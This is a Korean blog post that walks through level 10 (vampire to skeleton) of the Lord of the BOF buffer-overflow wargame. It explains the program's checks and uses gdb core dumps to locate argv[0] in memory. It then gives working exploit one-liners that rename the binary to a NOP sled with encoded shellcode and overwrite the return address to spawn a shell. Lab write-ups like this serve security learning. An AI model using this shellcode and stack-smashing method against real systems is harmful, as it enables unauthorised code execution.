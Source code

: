 ```yaml
---
title:  "[LOB] level 10: vampire >> skeleton "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-23 13:02:15

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 10

**vampire / music world**

skeleton.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147228238-d68f6620-fd33-4ca6-ab46-56fb1f4f210b.png)

argc갯수 2개 이상이여야함  
환경변수 초기화  
argv[1][47]이 \xbf 여야함  
argv[1]의 길이가 48보다 크면 안됨  
buffer초기화  
argv를 argc의 갯수만큼 초기화

gdb로 초기화되지 않는 부분을 찾는것이 중요하다  
![image](https://user-images.githubusercontent.com/69203345/147232613-480d4c8d-a903-4123-a637-782fcf5a9bb2.png)  
gdb로 core를 확인하는데 x/??x가 아닌  
x/??s를 사용했다  
gdb의 x명령어의 s옵션은 string이라는 의미이고, 읽을수 있는 값들을 보여준다  

x/2000s $esp -> esp를 기준으로 문자열로 2000개 보여준다  
![image](https://user-images.githubusercontent.com/69203345/147233973-fd2f2b6a-112c-42f7-bf79-3e416c739d0d.png)  
![image](https://user-images.githubusercontent.com/69203345/147233381-c7f7ef7e-7ea1-47eb-8259-327eff0c08f8.png)  
argv[0]의 값이 남아있다  

이전문제와같이 파일명을 쉘코드로 바꿔주고 (단, \x2f 가 포함되지 않은 쉘코드) coredump후 주소값확인해서 리턴주소로 설정하면 되겠다

>rename skeleton \`python -c 'print "\x90"\*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*50'` skeleton

![image](https://user-images.githubusercontent.com/69203345/147234614-e7609f87-686b-44c7-bc8c-2366522a64fd.png)

>./\`python -c 'print "\x90"\*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"\*50+" "+"D"*44+"\xff\xff\xff\xbf"'`

coredump확인
![image](https://user-images.githubusercontent.com/69203345/147235209-d572253c-28be-46de-aaef-b9a4c18f2516.png)

gdb로 core확인  
![image](https://user-images.githubusercontent.com/69203345/147235320-fcdcde7a-376a-4c3c-a31c-562407913dd9.png)  
![image](https://user-images.githubusercontent.com/69203345/147243927-40ecd8ae-609e-4901-9fb6-da0106677a32.png)

0xbfffff40을 리턴주소로 하면 되겠다   
>./\`python -c 'print "\x90"\*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"\*50+" "+"D"*44+"\x40\xff\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/147244185-9a9499bd-919b-4301-9afc-381d3d46e2c6.png)

처음에 쉘코드 뒤에 nop을 안줬다가 seg fault 나와서 뒤에도 nop주니까 해결됐다